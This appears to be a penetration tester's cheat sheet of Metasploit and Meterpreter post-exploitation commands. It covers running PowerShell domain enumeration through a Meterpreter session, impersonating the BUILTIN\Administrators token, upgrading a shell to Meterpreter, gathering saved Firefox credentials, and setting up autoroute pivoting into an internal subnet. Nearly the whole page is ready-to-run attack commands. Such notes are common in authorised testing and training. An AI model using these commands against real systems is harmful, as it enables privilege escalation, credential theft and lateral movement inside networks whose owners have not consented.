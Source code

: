 ### **Powershell Commands from Meterpreter**

* run a powershell command as a "oneshot" from a meterpreter shell

```
execute -if powershell.exe -a "dir"
execute -if powershell.exe -a "net group"
execute -if powershell.exe -a 'net user /domain'
```

### **Metasploit imperssonate**

```
Load incognito
list_tokens -g
impersonate_token "BUILTIN\Administrators"
```

### **Upgrade shell to meterpreter**

```
use multi/manage/shell_to_meterpreter
set SESSION
set LHOST
set LPORT
run
```

### Firefox Post Exploitation&#x20;

```
use post/multi/gather/firefox_creds
```

* can be run as non Administrator or as Admin, registry information gets pulled as Admin

### Routing

### **Set route**

```
route add <subnet / host ip> <subnetmask> <session id>
```

### **Autoroute module**

```
use multi/manage/autoroute
```

### **Run autoroute**

```
run autoroute -s 10.100.11.0/24
```
